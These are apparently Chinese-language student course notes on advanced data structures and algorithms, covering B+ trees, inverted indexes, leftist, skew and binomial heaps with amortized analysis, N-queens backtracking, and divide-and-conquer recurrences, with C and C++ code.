根据 B+ 树定义，需要在非叶结点层逐层和存储的键值比较从而确定去哪一个孩子结点。 因此时间复杂度有两个重要因素：一个是树的高度，另一个是每一层搜索需要的时间。树的高度非常好计算，最差的情况也是每个结点都存 \(\lceil \frac{M}{2} \rceil\) 个结点，因此最大高度是 \(O(\log_{⌈M/2⌉} N)\) 的。 然后每一层因为键值是排好序的，因此用二分查找找到要去哪个孩子结点，复杂度为 \(O(\log_2 M)\)，综合可得搜索的时间复杂度为
B+树插入¶
伪代码如下
Btree Insert ( ElementType X, Btree T )
{ Search from root to leaf for X and find the proper leaf node;
Insert X;
while ( this node has M+1 keys )
{split it into 2 nodes with (M+1)/2 and (M+1)/2 keys,
respectively;
if (this node is the root)
create a new root with two children;
check its parent;
}
}
Key-point
分裂时，以右半部分的最小孩子作为分裂后的索引，例如 2-3 树，根节点为（1,2,3）,插入4之后，分裂为（1,2）和（3,4）,根节点变为3，左孩子为（1,2）,右孩子为(3,4)
就是找到插入的位置，然后插入看结点是否放得下，放不下就分裂，如果分裂后子结点个数也过多则继续向上一层分裂，直到根结点孩子爆满则将根结点分 裂并生成新的根结点，当然还要注意即使不分裂也可能需要按 B+ 树定义更新上层结点。我们知道树有 $O(\log_{⌈M/2⌉} N) $层，每层操作最多是 \(O(M)\) 的（如更新结点或者分裂，无非就是更改 \(O(M)\) 个 键值以及修改 \(O(M)\) 个父子指针），因此整体时间复杂度为
B+树删除¶
想法很简单，因为只需把插入时分裂结点改为合并键值或孩子数量少的 结点，当然需要注意的是，为了确保合并后键值数量不会超过 M 且减少合并次数，可以先看看兄 弟结点是不是键值还很多，多的话拿一个过来即可，事实上整体时间复杂度和插入分析类似，也 为 \(O(\frac{M}{\log M} \log N)\)
倒排索引¶
约 716 个字 25 行代码 预计阅读时间 3 分钟
倒排文件是一种数据结构，它存储了某个特定词汇在文本中所有出现位置的索引。这些索引可以是页面编号、行号或文本中的具体位置等。简而言之，倒排文件就是一种记录了词汇出现位置的地图，便于快速检索到该词汇在文档中的所有出现点。

储存其出现的频率是因为从出现次数较少的词汇中找到的文档更有可能是相关文档。而且，出现次数较少的词汇更有可能是特定的词汇，因此更有可能是相关文档。
构建倒排索引：
while ( read a document D ) {
while ( read a term T in D ) {
if ( Find( Dictionary, T ) == false )
Insert( Dictionary, T );
Get T’s posting list;
Insert a node to T’s posting list;
}
}
Write the inverted index to disk;
需要考虑很多问题
-
Steaming: 词汇的变形问题，如“run”和“running”是同一个词汇的不同形式。没必要分别储存
-
Stop words：在搜索引擎中没有实际意义的词汇，如“a”、“an”、“the”等。在倒排文件中，这些词汇的储存会占用大量的空间，而且对搜索结果没有实际意义。
-
搜索的方式：search树、哈希表；树查询比较慢，范围查询比较块；哈希表查询比较快，但是范围查询比较慢，而且需要考虑哈希冲突的问题。
-
内存管理
BlockCnt = 0;
while ( read a document D ) {
while ( read a term T in D ) {
if ( out of memory ) {
Write BlockIndex[BlockCnt] to disk;
BlockCnt ++;
FreeMemory;
}
if ( Find( Dictionary, T ) == false )
Insert( Dictionary, T );
Get T’s posting list;
Insert a node to T’s posting list;
}
}
for ( i=0; i<BlockCnt; i++ )
Merge( InvertedIndex, BlockIndex[i] );
- 分布式索引：将倒排索引分布在多个服务器上，每个服务器负责一部分索引。这样可以提高搜索的效率，减少单个服务器的负载。

- 压缩存储

将stop words去掉，存储时存储每个单词的长度而不是其首字母出现的位置，这样可以避免大数字的存储。
- 文档阈值的控制

-
文档阈值控制：
- 只检索按照权重排名的前
x个文档。 - 不适用于布尔查询，因为布尔查询通常需要返回所有匹配的文档，而不是按相关性排序的子集。
- 缺点是由于截断可能会遗漏一些相关的文档，即只选择排名靠前的文档，可能会忽略重要的文档。
- 只检索按照权重排名的前
-
查询阈值控制：
- 将查询词按照词频升序排列（从最不常见的词到最常见的词）。
- 系统根据原始查询词的某个百分比进行搜索。图中显示了按 20%、40%、80% 的比例使用查询词（从 T1 到 T10）
搜索的性能衡量指标有两个：召回率**和**准确率。召回率(能搜索到多少)是指检索到的相关文档数与系统中所有相关文档数的比值，准确率(正确的是多少)是指检索到的相关文档数与检索到的文档总数的比值。
| Relevant | Irrelevant | |
|---|---|---|
| Retrieved | \(R_R\) | \(I_R\) |
| Not Retrieved | \(R_N\) | \(I_N\) |
Perscision = \(\dfrac{R_R}{R_R+I_R}\)
Recall = \(\dfrac{R_R}{R_R+R_N}\)
左式堆与斜堆¶
约 3467 个字 78 行代码 预计阅读时间 13 分钟
左式堆¶
在有的情况下，我们需要进行堆的合并操作，左式堆就是为了在merge操作中提供更好的性能。
定义¶
NPL
一个节点X的 NPL(Null Path Length) ，NPL(X)定义为从 X 到一个没有两个儿子的结点的最短路径的长。因此，具有 0 个或 1 个儿子的结点的 Npl 为 0，且规定 Npl(null)=-1
左式堆-leftist Heap
每个结点的左孩子的 Npl 都要大于等于其右孩子的 Npl。注意这一定义适用于没有两个孩子的结点，因为有定义 Npl(null)=-1
向左边倾斜有一个很好的性质
性质¶
在右路径上有 \(r\) 个结点的左式堆必然至少有 \(2^r − 1\) 个结点（右路径指从根结点出发一路找右孩子直到找到叶子的路径）。
这一定义指出：若一共有 \(n\) 个结点，那么右路径上的结点个数至多为 \(\log(n + 1)\)，因此左式堆的右路径结点数至多为 \(\log(n + 1)=O(\log n)\)。
Proof
我们可以使用数学归纳法证明这一性质
使用数学归纳法证明。若 \(r = 1\)，则显然至少存在 1 个结点。设定理对右路径上有小于等于 \(r\) 个结点的情况都成立，现在考虑在右路径上有 \(r + 1\) 个结点的左式堆。此时，根的右子树恰好在右路径上有 \(r\) 个结点，因此右子树大小至少为 \(2^r − 1\)。考虑左子树，根据左式堆定义左子树的 Npl 必须大于等 于 \(r − 1\)，事实上很容易归纳得到 Npl 大于等于 \(r − 1\) 的树右路径至少有 \(r\) 个结点，因此左子树大小也 至少为 \(2^r − 1\)，因此整棵树的结点数至少为
操作与实现¶
wyy有话说
有一个直觉是值得特别说明的，就是我们发现平衡搜索树中我们通常要求树越平衡越好，但堆却似乎不需要这一点，这是为什么呢。这是因为堆不支持 find 操作，所以左式堆左边的结点在操作中可以完全不被访问，而我们会知道只在右路径上操作也完全可以解决插入、删除最小值和合并，因此我们完全不需要保持树的平衡。
Merge&Insert¶
Insert：可以视为一个堆和一个单结点的堆的Merge，因此问题转化为Merge。
递归实现
PriorityQueue Merge ( PriorityQueue H1, PriorityQueue H2 )
{
if ( H1 == NULL ) return H2;
if ( H2 == NULL ) return H1;
if ( H1->Element < H2->Element ) return Merge1( H1, H2 );
else return Merge1( H2, H1 );
}
static PriorityQueue
Merge1( PriorityQueue H1, PriorityQueue H2 )
{
if ( H1->Left == NULL ) /* single node */
H1->Left = H2; /* H1->Right is already NULL
and H1->Npl is already 0 */
else {
H1->Right = Merge( H1->Right, H2 ); /* Step 1 & 2 */
if ( H1->Left->Npl < H1->Right->Npl )
SwapChildren( H1 ); /* Step 3 */
H1->Npl = H1->Right->Npl + 1;
} /* end else */
return H1;
}
Note
这里分开两个函数写主要是为了避免重复写H1接到H2和H2接到H1的代码，这样可以进一步的模块化减少代码量。
其主要步骤为
- 如果两个堆中至少有一个是空的，那么直接返回另一个即可；
- 如果两个堆都非空，我们比较两个堆的根结点 key 的大小，key 小的是 H1，key 大的是 H2；
- 如果 H1 只有一个顶点（根据左式堆的定义，只要它没有左孩子就一定是单点），直接把 H2 放在 H1 的左子树就完成任务了（很容易验证这样得到的结构符合左式堆性质，此时 Npl 也没有变化）；
- 如果 H1 不只有一个顶点，则将 H1 的右子树和 H2 合并（这是递归的体现，在 base case 设计良好，其它步骤也都合理的情况下你完全可以相信这一步递归帮你做对了），成为 H1 的新右子树；
- 如果 H1 的 Npl 性质被违反，则交换它的两个子树；
- 更新 H1 的 Npl，结束任务
合并的写法
PriorityQueue Merge( PriorityQueue H1, PriorityQueue H2 )
{
if (H1==NULL) return H2;
if (H2==NULL) return H1;
if (H1->Element>H2->Element)
swap(H1, H2); //swap H1 and H2
if ( H1->Left == NULL )
H->Left=H2;
else {
H1->Right = Merge( H1->Right, H2 );
if ( H1->Left->Npl < H1->Right->Npl )
SwapChildren( H1 ); //swap the left child and right child of H1
H1->Npl=H1->Right->Npl+1;
}
return H1;
}
swap函数可以调用std::swap，也可以自己实现。
递归实现的复杂度
首先分析递归的最大深度。我们发现，在 1-5 步这样的递归过程中，产生的递归层数不会超过两个左式堆的右路径长度之和，因为每次递归都会使得两个堆的其中一个（根结点 key 更小的）向着右路径上下一个右孩子推进，并且直到其中一个推到了 null 结点就不再加深递归。注意加深一层的过程中的操作是常数的，因为只需要简单的大小比较和找孩子，加上右路径长度的限制，因此递归向下的过程是 \(O(\log n)\) 的。这一点我们可以更严谨地展开：假设 \(H1\) 大小为 \(N1\)，\(H2\) 大小为 \(N2\)，两者路径之和
上面的推导用到了基本不等式 \(a + b \geqslant 2\sqrt{ab}\)。总而言之，两个堆右路径长度之和仍然是两个堆大小的对数级别，因此递归层数是 \(O(\log n)\) 的是准确的接下来分析递归返回的操作，事实上每一层的操作也是常数的，因为只需要接上新的指针，判断、交换 子树以及更新 Npl，所以也是 \(O(\log n)\) 的，因此总的时间复杂度就是 \(O(\log n)\) 的。
迭代实现
递归过程的展开实际上就等价于迭代算法的流程：每一次递归向下对应迭代中保留根结点更小的堆的左子树（就像是左子树不动，右子树等着接下来合并的结果），直到最后一次与 null合并直接接上，递归返回过程实际上就是逐个检查新的右路径上的结点是否有违反 Npl 性质的并且更新 Npl 即可，其它结点无需关心是因为它们根本就不受影响因为我们已经说明了迭代和递归的每一步都是有对应关系的，只不过递归是最后返回时才接上每个结点的右子树，迭代过程中就已经接好了，因此二者时间复杂度是一样的。当然，我们在完成上面的流程后会有一个观察，就是在递归向下之后，或者说交换孩子调整左式堆性质之前，合并得到的堆的右路径是原来两个堆的右路径合并排序的结果，通过上面的过程我们很容易证明这一结论是通用的，因为我们每次都在比较两个堆的右路径上两个点的大小，然后把小的作为根插入。有了这一规律，我们做题会更快捷一些，因为你只需要把两条右路径从小到大排序，然后从小到大依次带着左子树接入到新的右路径即可（但要注意在此之后还需要调整使得满足左式堆结构性质）。因此我们用代码实现迭代版本也并没有想象中复杂，只需要对两个堆右路径从小到大遍历操作，然后再从右路径最后一个点返回根结点，过程中检查结构性质并更新 Npl 即可

void npl_update(LeftistHeap h) {
if (h == NULL) return;
h->npl = h->right == NULL ? 0 : h->right->npl + 1;
}
LeftistHeap merge_iterative(LeftistHeap h1, LeftistHeap h2) {
if (h1 == NULL) return h2;
if (h2 == NULL) return h1;
LeftistHeap stack[MAX_STACK_SIZE] = {NULL};
int top = -1;
LeftistHeap h = NULL;//创建新堆
LeftistHeap *p = &h;//指向新堆的指针，用于更新
while (h1 != NULL && h2 != NULL) {
if (h1->key > h2->key) {
swap(h1, h2);
}//保证h1的key小于h2
stack[++top] = h1;//将h1入栈
*p = h1;//修改新堆对应位置上的值
p = &h1->right;//指针指向下一个需要更新的位置
LeftistHeap next = h1->right;//保留下一个h1
h1->right = h2;//将h2接到h1的右边,如果此时接得不对，会在下一次循环中*p=h1，来修改
h1 = next;//更新h1
}
*p = h1 == NULL ? h2 : h1;//剩余的直接接上
while (top >= 0) {
npl_update(stack[top--]);
}//更新npl
adjust(h);//调整堆
return h;
}
void adjust(LeftistHeap h) {
if (h == NULL) return;
adjust(h->right);
if (h->right == NULL) return；
if (h->left==NULL||h->left->npl < h->right->npl) {
swap(h->left, h->right);
}
npl_update(h);
}
斜堆¶
斜堆与左式堆的关系就像是 splay 树和 AVL 树之间的关系。回顾 splay 树，它并不需要维护 AVL 树中的 bf 属性，只需要在访问一个结点之后就无脑地将它用 zig/zig-zig/zig-zag 三种情况将它翻到根结点即可。
斜堆也是类似的想法，它不用再维护 Npl，因此在递归过程中左式堆所有维护结构性质以及更新 Npl 的
操作不再需要，取而代之的是如下操作:
斜堆
-
在 base case 是处理 H 与 null 连接的情况时，左式堆直接返回 H 即可，但斜堆必须看 H 的右路径，我们要求 H 右路径上除了最大结点之外都必须交换其左右孩子。
-
在非 base case 时，若 H1 的根结点小于 H2，如果是左式堆，我们需要合并 H1 的右子树和 H2作为 H1 的新右子树，最后再判断这样是否违反性质决定是否交换左右孩子，斜堆直接无脑交换，也就是说每次这种情况都把 H1 的左孩子换到右孩子的位置，然后把新合并的插入在 H1 的左子树上。
总的来说，斜堆的基本操作与左式堆类似，但是每一次递归完毕都进行不加判断大小的交换操作
Example

如果我们像前面分析左式堆那样展开递归的每一步，前面的过程很好理解，就是无脑交换根的 key 更小的堆的左右孩子，关键在于当递归到最深的一层我们看到实际上是merge 一个 null 堆和一个 18 为根、35 为 18 的左孩子的堆，我们看上面操作的第一条，这个堆的右路径上除了最大结点外都要交换左右孩子，但幸运的是，这个堆右路径只有 18 一个结点，它是最大的，所以无需交换。维基百科等地方的斜堆 base case 之后都无需操作，但这里可能还有操作
最后合并出的堆的左路径上讲包含两个原始堆的右路径排序后的结果，当然后面还可能连着原始堆右路径最大值的一些左孩子（因为这些左孩子是不被交换的）
斜堆的摊还分析¶
斜堆的期望类似于Splay tree，Any M consecutive operations take at most \(O(M \log N)\) time,为了证明这个，我们仍然需要用势函数法来进行摊还分析。
定义势函数之前，我们要先定义一些其它的东西
Definition
我们称一个结点 P 是重的（heavy），如果它的右子树结点个数至少是 P 的所有后代的一半（后代包括 P 自身）。反之称为轻结点（light node）
引理
对于右路径上有 \(l\) 个轻结点的斜堆，整个斜堆至少有 \(2^l − 1\) 个结点，这意味着一个 \(n\) 个结点的斜堆右路径上的轻结点个数为 \(O(\log n)\)。
我们可以使用数学归纳法来证明：
首先，对于l=1,整棵树至少有\(2^1-1=1\)个结点，结论是正确的； 假设对于右路径上有小于等于\(l\)个轻结点的斜堆，整个斜堆至少有\(2^l-1\)个结点的结论都成立 现在考虑右路径上有\(l+1\)个轻结点的斜堆。 设右路径上第一个轻结点为P，如果把这个结点及其左子树一起删除，则至少删除了以P为根的子树的所有的结点的一半再加一(右子树节点数加根)，因为P是轻的；则剩下的右路径上有\(l\)个轻结点，根据归纳假设，剩下的结点至少有\(2^l-1\)个，加上删掉的结点，整个斜堆至少有\(2*(2^l-1)+1\)
我们需要证明的是
若我们有两个斜堆 \(H1\) 和 \(H2\)，它们分别有 \(n_1\) 和 \(n_2\) 个结点，则合并 \(H1\) 和 \(H2\) 的摊还时间复杂度为 \(O(\log n)\)，其中 \(n = n_1 + n_2\)。
因为insert和delete都是以merge为基础的，所以我们只需要证明merge的摊还时间复杂度即可。
Proof
证明: 我们定义势函数 \(\Phi(Hi)\) 等于堆 \(Hi\) 的重结点（heavy node）的个数，并令 H3 为合并后的新堆.我们设 \(Hi(i = 1, 2)\) 的右路径上的轻结点数量为 \(li\)，重结点数量为 \(hi\)，因此真实的合并操作最坏的时间复杂度为
(所有操作都在右路径上完成)。因此根据摊还分析我们知道摊还时间复杂度为
事实上，在 merge 前我们可以记\(\Phi(H1) + \Phi(H2) = h1 + h2 + h\),其中 \(h\) 表示不在右路径上的重结点个数。现在我们要考察合并后的情况，事实上我们有两个非常重要的观察：
-
只有在 H1 和 H2 右路径上的结点才可能改变轻重状态，这是很显然的，因为其它结点合并前后子树是完全被复制的，所以不可能改变轻重状态；
-
H1 和 H2 右路径上的重结点在合并后一定会变成轻结点，这是因为右路径上结点一定会交换左右子树，并且后续所有结点也都会继续插入在左子树上（这也表明轻结点不一定变为重结点）。结合以上两点，我们知道合并后原本不在右路径上的 h 个重结点仍然是重结点，在右路径上的\(h1 + h2\)个重结点全部变成轻结点，\(l1 + l2\) 个轻结点不一定都变重，因此合并后我们有\(\Phi(H3) \leqslant l1 + l2 + h\),代入数据计算可得
根据前面的引理，\(l1 + l2 = O(\log n_1 + \log n_2) = O(\log(n_1 + n_2)) = O(\log n)\)（这里的等号之前有完全一样的说明过），并且注意到初始（空堆）势函数一定为 0。且之后总是非负的，所以这一势函数定义满足要求，因此我们的证明也就完成了。
Key-point
对于斜堆和左式堆的合并,是\(O(\log n)\)的，这个\(n\)既可以是两个堆的大小之和，或者是\(\max(n1,n2)\),因为
二项堆(Binomial Heap)¶
约 2173 个字 110 行代码 预计阅读时间 9 分钟
二项堆的定义和性质¶
在二叉堆(Binary Heap)的基础上，我们可以实现在可以在 \(O(n)\) 时间内实现 \(n\) 个结点的插入建堆操作，而之前讨论的左式堆和斜堆不可以
Definition
- 结构性质：
- 二项堆不是一棵树，而是由许多树组成的森林，其中每一棵树称为二项树
- 一个二项堆中的每棵树具有不同的高度，每一种高度的二项树最多只有一棵
- 高度为 0 的二项树是一棵单节点树；高度为 \(k\) 的二项树 \(B_k\) 通过将一棵二项树 \(B_{k−1}\) 附接到另一棵二项树 \(B_{k−1}\) 的根上而构成
- 序性质：每棵二项树都保持堆序性质(最小堆或者最大堆)
根据二项堆的性质，我们有以下结论：
二项树的节点数目：\(B_k\) 的二项树具有 \(2^k\) 个节点，这可以由递推很容易证明
在深度为\(d\)处的节点数恰好就是二项系数\(\begin{pmatrix} k \\ d \end{pmatrix}\)
数学归纳法证明
对于 \(k = 0\) 的情况显然正确，设直到 \(k\) 结论都是正确的，则对于 \(B_k+1\)，第一层和 最后一层只有一个结点是可以直接得到的，在其它层中，回忆二项堆的定义是由两个 \(B_k\) 接起来的，因此在新树的深度为\(d\)的地方，由两部分组成：
- 一部分是在 \(B_k\) 的深度为 \(d\) 的地方，有 \(\begin{pmatrix} k \\ d \end{pmatrix}\) 个结点
- 另一部分是在 \(B_k\) 的深度为 \(d-1\) 的地方，有 \(\begin{pmatrix} k \\ d-1 \end{pmatrix}\) 个结点
故我们只要证
这由二项数的性质很容易证明
Note
可以将二项堆与二进制表示联系起来
二项堆的操作¶
Findmin¶
直接遍历所有树,注意到对于一个有\(n\)个结点的二项堆，最多有\(\log n\)棵树，因此时间复杂度为\(O(\log n)\)
也可以通过专门记录最小的节点来实现\(O(1)\)的时间复杂度，当然在DeleteMin的时候需要重新找到最小的节点并更新
Insert & merge¶
插入是特殊的合并操作，我们可以将一个新的节点看作是一个只有一个节点的二项堆，然后将其与原来的二项堆合并即可；
合并操作的过程十分类似二进制数的加法，例如一个二项堆有\(B_3,B_2,B_0\),其二进制表示为\(1101\)，另一个二项堆有\(B_3,B_1,B_0\)，其二进制表示为\(1011\)，我们可以将其看作是二进制数相加，然后将进位的部分合并得到新的二进制数\(11000\),则新的二项堆为\(B_4,B_3\)，我们需要保证堆的存储顺序是按高度从小到大来排列，这样时间复杂度就是\(O(\log n)\)
对于从空开始插入建堆的时间复杂度我们需要做特殊的分析。因为我们是要平均时间的最坏情况，事实上也就是摊还代价。
聚合法
聚合法需要每一步的操作复杂度，实际上我们随便模拟几步再结合之前讨论的合并和二进制加法之间的关系就可以发现，插入的整个操作与二进制数加1有完全的对应关系：若是遇到了某一位是\(1+1\)，则用常数操作完成简单的合并即可，如果遇到\(0+1\)，那么当前所有的二项树合起来就是最后的结果。基于这一观察我们知道，因为\(0+1\)对应将0置1，\(1+1\)对应1置0，这两种情况都对应于堆的常数时间操作，因此从空树连续插入\(n\)的顶点的时间复杂度与\(0+1+1 \cdots (n \ of \ 1)\)的过程中数据二进制表示中0和1比特翻转的次数总和。于是算法复杂度就很好计算了，因为我们知道\(n\)对应于 \(\lfloor \log n \rfloor+1\)个二进制位，事实上最低位每次加1都会反转比特，次低位每两次运算反转比特，倒数第三位每4次运算反转比特......以此类推，\(n\)次操作的整体时间复杂度与
有了这个结论，我们就可以知道，从空树开始插入\(n\)个结点的时间复杂度是\(O(n)\)的,故单步插入的摊还代价是\(O(1)\)的
势能法
对于复杂的操作，对应着很多次的复位操作(1变0)和一次置位(0变1)操作，所以将势函数定义为 \(\Phi=\)二项堆中二项树的个数，这样在一次操作之后势函数的会下降很多；
假设一次操作 \(c_i=k+1\) 有 \(k\) 次复位；那么
故单步操作复杂度为\(O(1)\)
二项堆的代码实现¶
因为每个结点的孩子数量可能不只有2个，因此我们使用LeftChild和NextSibling的组合实现。直观上来看用LeftChild和NextSibling是让二项树翻转了：原先是根的子树从左到右高度依次增大，现在依次减小了。并且为了方便索引每棵二项树，我们用一个数组存储每棵二项树的根，其中数组的索引就对应二项树的高度

Key-point
相当于让最大的孩子管着其它的兄弟
结构定义¶
typedef struct BinNode *Position;//指针
typedef struct Collection *BinQueue;//二项队列
typedef struct BinNode *BinTree; //二项树
struct BinNode
{
ElementType Element;
Position LeftChild;
Position NextSibling;
} ;
struct Collection
{
int CurrentSize; /* total number of nodes */
BinTree TheTrees[ MaxTrees ];//存储每棵二项树的根
} ;
合并大小相同的树(\(O(1)\)复杂度)¶
BinTree
CombineTrees( BinTree T1, BinTree T2 )
{ /* merge equal-sized T1 and T2 */
if ( T1->Element > T2->Element )
/* attach the larger one to the smaller one */
return CombineTrees( T2, T1 );
/* insert T2 to the front of the children list of T1 */
T2->NextSibling = T1->LeftChild;
T1->LeftChild = T2;
return T1;
}

Merge¶
BinQueue Merge( BinQueue H1, BinQueue H2 )
{ BinTree T1, T2, Carry = NULL;
int i, j;
if ( H1->CurrentSize + H2-> CurrentSize > Capacity ) ErrorMessage();
H1->CurrentSize += H2-> CurrentSize;
for ( i=0, j=1; j<= H1->CurrentSize; i++, j*=2 ) {
T1 = H1->TheTrees[i]; T2 = H2->TheTrees[i]; /*current trees */
switch( 4*!!Carry + 2*!!T2 + !!T1 ) {
case 0: /* 000 */ break;
case 1: /* 001 */ break;
case 2: /* 010 */ H1->TheTrees[i] = T2; H2->TheTrees[i] = NULL; break;
case 4: /* 100 */ H1->TheTrees[i] = Carry; Carry = NULL; break;
case 3: /* 011 */ Carry = CombineTrees( T1, T2 );
H1->TheTrees[i] = H2->TheTrees[i] = NULL; break;
case 5: /* 101 */ Carry = CombineTrees( T1, Carry );
H1->TheTrees[i] = NULL; break;
case 6: /* 110 */ Carry = CombineTrees( T2, Carry );
H2->TheTrees[i] = NULL; break;
case 7: /* 111 */ H1->TheTrees[i] = Carry;
Carry = CombineTrees( T1, T2 );
H2->TheTrees[i] = NULL; break;
} /* end switch */
} /* end for-loop */
return H1;
}
4*!!Carry + 2*!!T2 + !!T1的作用是将树转换为二进制表示，对于第一个非，如果是空，那么为1，如果非空，那么为0，再取非，就再取反，然后转换为3位的二进制数字000什么都不用做，此时三个位置都是0001什么都不用做，此时H1有树，H2没有东西需要合并上去的010此时将H2的树转移到H1011需要进位，Carry要变成两树之和，两树要清空100将Carry转移到H1101需要进位,当位置0，将Carry变得更大110与上一情况类似111这里的做法并不唯一，我们可以保留任意一棵树,将另外两树之和进位上去，不过这里采用的是保留Carry,进位T1+T2
Deletemin¶
ElementType DeleteMin( BinQueue H )
{ BinQueue DeletedQueue;
Position DeletedTree, OldRoot;
ElementType MinItem = Infinity; /* the minimum item to be returned */
int i, j, MinTree; /* MinTree is the index of the tree with the minimum item */
if ( IsEmpty( H ) ) { PrintErrorMessage(); return –Infinity; }
for ( i = 0; i < MaxTrees; i++) { /* Step 1: find the minimum item */
if( H->TheTrees[i] && H->TheTrees[i]->Element < MinItem ) {
MinItem = H->TheTrees[i]->Element; MinTree = i; } /* end if */
} /* end for-i-loop */
DeletedTree = H->TheTrees[ MinTree ];
H->TheTrees[ MinTree ] = NULL; /* Step 2: remove the MinTree from H => H’ */
OldRoot = DeletedTree; /* Step 3.1: remove the root */
DeletedTree = DeletedTree->LeftChild; free(OldRoot);
DeletedQueue = Initialize(); /* Step 3.2: create H” */
DeletedQueue->CurrentSize = ( 1<<MinTree ) – 1; /* 2^{MinTree} – 1 */
for ( j = MinTree – 1; j >= 0; j – – ) {
DeletedQueue->TheTrees[j] = DeletedTree;
DeletedTree = DeletedTree->NextSibling;
DeletedQueue->TheTrees[j]->NextSibling = NULL;
} //将树拆开
H->CurrentSize – = DeletedQueue->CurrentSize + 1;//minus 2^{MinTree}
H = Merge( H, DeletedQueue ); /* Step 4: merge H’ and H” */
return MinItem;
}
Explanation
比较简单，就照抄了GPT了
函数原型和输入参数
ElementType: 返回删除的最小元素的类型。BinQueue H: 要从中删除最小元素的二项队列。
变量初始化
BinQueue DeletedQueue;
Position DeletedTree, OldRoot;
ElementType MinItem = Infinity;
int i, j, MinTree;
DeletedQueue: 用于存储将要删除的树。DeletedTree: 指向当前处理的树。OldRoot: 保存被删除的根节点。MinItem: 初始设为正无穷，用于跟踪最小元素。MinTree: 存储最小元素所在树的索引。
检查队列是否为空
- 检查二项队列是否为空。如果为空，则打印错误信息并返回负无穷。
找到最小元素
for (i = 0; i < MaxTrees; i++) {
if (H->TheTrees[i] && H->TheTrees[i]->Element < MinItem) {
MinItem = H->TheTrees[i]->Element;
MinTree = i;
}
}
- 遍历所有树，找到具有最小元素的树（即最小根节点）。
- 如果找到更小的元素，则更新
MinItem和MinTree。
删除最小元素的树
DeletedTree = H->TheTrees[MinTree];
H->TheTrees[MinTree] = NULL;
OldRoot = DeletedTree;
DeletedTree = DeletedTree->LeftChild;
free(OldRoot);
- 将最小树存储在
DeletedTree中，并在原队列中将其置为NULL。 - 保存根节点到
OldRoot，然后将DeletedTree指向其左子树。 - 释放
OldRoot所占的内存。
初始化新的队列
- 初始化一个新的二项队列
DeletedQueue，用于存放从最小树中拆分出的树。 - 设置
DeletedQueue的当前大小为2^MinTree - 1，因为最小树的节点数是2^MinTree - 1。
拆分树并放入新队列
for (j = MinTree - 1; j >= 0; j--) {
DeletedQueue->TheTrees[j] = DeletedTree;
DeletedTree = DeletedTree->NextSibling;
DeletedQueue->TheTrees[j]->NextSibling = NULL;
}
- 从
MinTree-1到0，将拆分出的树依次放入DeletedQueue中。 - 将每棵树的
NextSibling设为NULL，以正确断开链表。
更新原队列的大小并合并
- 从原队列
H的当前大小中减去DeletedQueue的大小以及1（因为删除了一个根）。 - 调用
Merge函数将H和DeletedQueue合并，更新原队列。
返回最小元素
- 返回找到的最小元素。
堆性能的总结(单步摊还代价)¶
| Operation | Binary Heap | Leftist Heap | Skew Heap | Binomial Heap | Fibonacci Heap |
|---|---|---|---|---|---|
| Insert | \(O(\log n)\) | \(O(\log n)\) | \(O(\log n)\) | \(O(1)\) | \(O(1)\) |
| Merge | \(O(n)\) | \(O(\log n)\) | \(O(\log n)\) | \(O(\log n)\) | \(O(1)\) |
| DeleteMin | \(O(\log n)\) | \(O(\log n)\) | \(O(\log n)\) | \(O(\log n)\) | \(O(\log n)\) |
| Delete | \(O(\log n)\) | \(O(\log n)\) | \(O(\log n)\) | \(O(\log n)\) | |
| DecreaseKey | \(O(\log n)\) | \(O(\log n)\) | \(O(\log n)\) | \(O(1)\) |
Backtracking(回溯算法)¶
约 226 个字 90 行代码 预计阅读时间 2 分钟
回溯算法
回溯算法是一种算法技术，通过逐步尝试部分解决方案来解决问题，如果某个部分解决方案不满足问题的约束条件，就会放弃它。它会探索所有可能的解决方案，并排除那些不符合条件的选项。
八皇后问题¶
八皇后问题
八皇后问题是一个经典的组合优化问题，目标是在一个 8×8 的国际象棋棋盘上放置 8 个皇后，使得它们彼此之间无法攻击。换句话说，任何两个皇后不能在同一行、同一列或同一对角线上。
k皇后问题是八皇后问题的一般化，即在一个 n×n 的棋盘上放置 k 个皇后，使得它们彼此之间无法攻击。
个人cpp代码
#include<iostream>
#include<vector>
class Game
{
public:
int Number;
std::vector<std::vector<int>> solutions;
std::vector<int> Queen_setRow;
void init(int N);
void find_solution(int row);
bool is_safe(int row, int col);
};
void Game::init(int N)
{
Number = N;
for(int i=0; i<N; i++)
{
Queen_setRow.push_back(-1);
}
}
bool Game::is_safe(int row, int col)
{
for(int i=0; i<row; i++)
{
if(Queen_setRow[i] == col || abs(Queen_setRow[i] - col) == abs(i - row))
{
return false;
}
}
return true;
}
void Game::find_solution(int row)
{
if(row == Number)
{
solutions.push_back(Queen_setRow);
}
else {
for(int col=0; col<Number; col++)
{
if(is_safe(row, col))
{
Queen_setRow[row] = col;
find_solution(row+1);
Queen_setRow[row] = -1;
}
}
}
}
int main()
{
int N;
scanf("%d", &N);
Game chess;
chess.init(N);
chess.find_solution(0);
if(chess.solutions.size() < 3)
{
for(int i=0;i<chess.solutions.size();i++)
{
for(int j=0; j<chess.solutions[i].size(); j++)
{
printf("%d ", chess.solutions[i][j]+1);
}
printf("\n");
}
for(int k=0;k<3-chess.solutions.size();k++)
{
printf("\n");
}
}
else{
for(int i=0; i<3; i++)
{
for(int j=0; j<chess.solutions[i].size(); j++)
{
printf("%d ", chess.solutions[i][j]+1);
}
printf("\n");
}
}
printf("%ld", chess.solutions.size());
}
分治法¶
约 2143 个字 预计阅读时间 7 分钟
我们主要关心分治法的时间复杂度的分析以及它的应用
主定理¶
通常而言，分治法递归的时间复杂度有以下形式
其中\(a\)是子问题的个数，\(b\)是子问题的规模，\(f(n)\)是合并的时间；
代入法¶
代入法即猜想证明：
- 猜测解的形式
- 使用数学归纳法求出解中的常数，并证明是正确的
Example
\( T(N) = 2 \, T\left(\left\lfloor \frac{N}{2} \right\rfloor\right) + N \)
Guess: \( T(N) = O(N \log N) \)
Proof: Assume it is true for all \( m < N \), in particular for \( m = \left\lfloor \frac{N}{2} \right\rfloor \).
Then there exists a constant \( c > 0 \) so that
\( T\left(\left\lfloor \frac{N}{2} \right\rfloor\right) \leqslant c \left\lfloor \frac{N}{2} \right\rfloor \log \left\lfloor \frac{N}{2} \right\rfloor \)
Substituting into the recurrence:
注意\(c\)一定要是常数，不能与\(N\)有关
可以通过记住一些常见的结论，例如归并排序来简化计算
Eg
令\(m=\log n\),则\(n=2^m\),则
令\(S(m)=T(2^m)\),则
代入法得到\(S(m)=O(m \log m)\),所以\(T(n)=O(\log n \log \log n)\)
算法导论-微妙的细节
递归树法¶
